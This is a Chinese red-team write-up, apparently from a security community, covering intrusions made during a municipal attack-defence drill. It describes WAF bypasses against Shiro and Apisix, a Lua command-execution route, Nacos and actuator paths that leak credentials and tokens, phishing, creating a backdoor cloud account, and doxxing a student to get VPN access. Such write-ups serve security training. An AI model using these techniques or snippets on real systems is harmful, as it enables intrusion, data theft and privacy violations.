# 奇安信攻防社区 -【Web 实战】某头部直辖市攻防演练纪实 - 如何不用 0day 打下 n 个点

### 【Web 实战】某头部直辖市攻防演练纪实 - 如何不用 0day 打下 n 个点

在某头部直辖市的攻防演练中，各家安全厂商投入了大量人力物力...而我方基本未做准备，只有小米加步枪，且看如何不用 0day 如何连下数城

## 前言

几个月前打了一场某头部直辖市的攻防演练，演练当时通知的很急促，没做什么准备直接小米加步枪上阵了...

在此过程中，很多个没用到 0day 的打点案例都很有意思，下面就简单分享一下

## 案例一、某单位 shiro 绕 WAF(利用 shiro 处理 rememberMe 字段值的 feature)

信息搜集到某单位的 CAS 系统...当时开着 Burpsuite 插件，扫到了默认的 shiro 秘钥

当时开心坏了...但是有遥遥领先厂商的 WAF 在，如果直接上现成的工具会直接寄


后面试了试网上公开的方法，直接把请求方式删掉，依然被拦，包直接被重置掉，无奈寻找新 faeture

最终在 Shiro 的 rememberMe 字段值处理流程中，发现在 Base64 解码过程中有戏



如图，在 shiro 解码 base64 字符串的过程中，会调用 discardNonBase64 方法去除掉非 Base64 的字符


如图所示  


那么思路就来了，只需往 rememberMe 字段的值中填充非 Base64 的字符即可绕过 WAF(比如$符号)

```php
Base64包括小写字母a-z,大写字母A-Z,数字0-9,符号+和/组成的64个字符的字符集,另外包括填充字符=
```

在本地进行测试，果然奏效


那么后面就很简单了，把现成的 Shiro 利用工具配置 Burpsuite 的代理，Match&Replace 替换部分字符串即可  


最终也是成功拿下 Shell，只可惜过了半小时就被应急了...  


## 案例二、某互联网厂商 Apisix 绕阿里 WAF 拿下 28 个 Rce

如图使用了 apisix 网关的 WebServer 在用户访问不存在的路由时，会抛出如下错误，这可以作为我们指纹识别的特征所在

```php
{
  "error_msg": "404 Route Not Found"
}
```



针对 Apisix 节点的攻击方法，想要 RCE 的话，历史上主要有“默认 X-API-Key”和“Dashboard 未授权访问”两个洞可以用

过往挖某 SRC 的时候，就遇到过默认 X-API-Key 导致可直接创建执行 lua 代码的恶意路由的问题




恰巧这次攻防演练中，某目标子域的 Apisix，正好就存在 Dashboard 的未授权访问  


直接去 Github 扒了一个脚本，发现能检测出漏洞，但是 RCE 利用不成功，把 reponse 打印出来后，果然...被阿里云的 WAF 给拦了



随后把创建恶意路由的请求包中，添加一个带有大量脏数据的 Json 键，发现阿里云不拦了


用之前的 Dashboard 未授权访问漏洞查看路由，显示恶意路由确实是被写入了...但是直接访问恶意路由却依然提示 404


通过未授权访问漏洞，获取全量路由配置后，发现目标 apisix 应该是集群部署的...

```php
/apisix/admin/migrate/export
```

每个路由需要有一个 host 键来确定该路由被添加到哪个子域


随后再次构造写入恶意路由的数据，把 host 键加上，发现可以成功写入了


利用未授权接口读出全量路由 config，并提取出 host 键，确定可写入恶意路由的子域范围

```php
import json

def read_config():
    with open("data.json", 'r') as json_file:
        config = json.load(json_file)
    return config

data = read_config()

if "Routes" in data:
    for route in data["Routes"]:
        if "host" in route:
            host_value = route["host"]
            with open("data.txt", "a") as file:
                file.write(host_value + "\n")
                print(host_value)
```



但是后面执行命令，有的时候会被阿里云给拦掉，于是构造 lua 脚本时把传参和命令输出做了倒转，防止被流量检测到

```lua
local file=io.popen(string.reverse(ngx.req.get_headers()['Authenication']),'r')
local output=file:read('*all')
file:close()
ngx.say(string.reverse(output))
```

由于该 apisix 集群部署管理了 28 个子域的服务，所以成功拿下 28 个子域 Rce


## 案例三、某开发商 Nacos 未授权访问读取配置信息到精准钓鱼进入内网

利用 nacos 未授权访问，从 CONFIG.INFO 读取 config 信息

很幸运，其中包含公有云数据库凭据

```php
/nacos/v1/cs/ops/derby?sql=select+*+from+CONFIG_INFO+st
```



可惜试了一下都配了策略，没法外网直接连过去

但是...却发现了 config 信息中，出现了某系统的一个手机号  


随后加上微信钓鱼，以系统升级为由，成功拿到权限





## 案例四、某国企 - 从一个任意文件读取到 SSO 沦陷

某国企子域的资产，发现使用了 kkfileview 开源项目

翻了一下历史 issue，存在全回显的 ssrf，在目标上验证成功  



同时很幸运，这个点支持 file://协议，随后通过 file 协议读取到网站配置文件，拿到了目标的 AK,SK


使用阿里云的 Cli 创建后门账户，接管目标公有云  


同时在 root 目录，发现有诸多数据库文件  


读出多个 sql 文件内容后，有些库中存放的员工密码是弱加密的

借此我们掌握了部分员工的姓名，工号，明文密码，部门  


随后使用 IT 部门职级比较高的人员的工号、密码，成功进入 SSO 系统，拥有管理权限


后面就很简单了，创建一个账户，把所有产品和平台的权限点满...  


然后，然后所有通过 sso 登录的系统都能访问到了  


## 案例五、兵不血刃打穿某高校

为什么说兵不血刃呢...因为目标高校外网暴露面很小，基本上攻防演练期间能关的都关了

但是目标高校正值开学季，开放了一个研究生学号的查询系统，可以使用研究生的 sfz+ 姓名 查询学号和初始密码  


随后我开始漫长的百度之旅...最终定位到了一名在该校就读的研究生新生小姐姐




利用 xx 库的神秘力量，找到了小姐姐的信息  


最终成功拿到小姐姐的学号和初始密码  


非常走运，小姐姐没有改密码，直接进入到 ssl vpn 系统中



在某个查看学生个人信息的系统重，队友的 Burp 被动扫描到了一个二级目录的 swagger 文档

而“添加学生信息查看角色”的接口，竟然是没有鉴权的


随后利用接口，把当前用户添加查看学生信息的权限

如图，拿下全校十万学生的详细信息~


## 案例 6、某单位 Gitlab 项目权限误配导致公有云接管

防守单位中某单位的 Gitlab 开放到了公网，但是爆破了一顿，并不存在弱口令和其他 Nday 漏洞

但是经过对 Gitlab 的测试，找到了 Gitlab 中仓库权限的配置问题

```php
/api/v4/projects
```

获取到 gitlab 中部分仓库为 public 状态，非登录态可直接访问

  
如图，成功访问到某内部项目



最终在某项目中成功找到了可用的 ak,sk，完成公有云接管


## 案例七、某单位系统从一个 actuator httptrace 端点到千万量级敏感信息

挂着 Burp 代理，被动扫描到了一个 actuator 接口，很幸运，开放了 httptrace endpoint，借此我们可以获取到系统中的 http 请求日志



但是发现如图上方使用的鉴权 header 并不能直接进入到系统中

刚开始怀疑是鉴权信息的过期时间设置的比较短，写了个脚本监控带有 x-access-token 的新增请求

```python
import requests
import time

monitored_text = ""

# URL
url = "http://xxxxx.xxxxx.com/xxxxxx/actuator/httptrace/"

while True:
    try:
        response = requests.get(url)
        page_text = response.text
        new_content = page_text[len(monitored_text):]

        # 检查新增的内容是否包含 "x-access-token" 字符串
        if "x-access-token" in new_content:
            current_time = time.strftime("%Y-%m-%d %H:%M:%S", time.localtime())
            print(f"新增的内容包含 'x-access-token' 于 {current_time}")
        monitored_text = page_text
        time.sleep(1)

    except Exception as e:
        print(f"error Info: {e}")
```

最终成功拿到了一个可用的 token，发现是 JWT 形式的-\_-||...

原来之前拿到的 token 是测试数据，难怪用不了


使用该 JWT，通过 webpack 提取到的 api，访问后端 API，拿下大量敏感信息，达千万量级，防止 burp 卡死，仅列出部分


## 后言

不断提升识别攻击面、利用攻击面的广度与深度，是一名 hacker 的核心素养

攻防之中，拥有充足的经验，而又不陷入经验主义的迂腐，面对万难，而又不放弃思考，是出奇制胜的关键所在
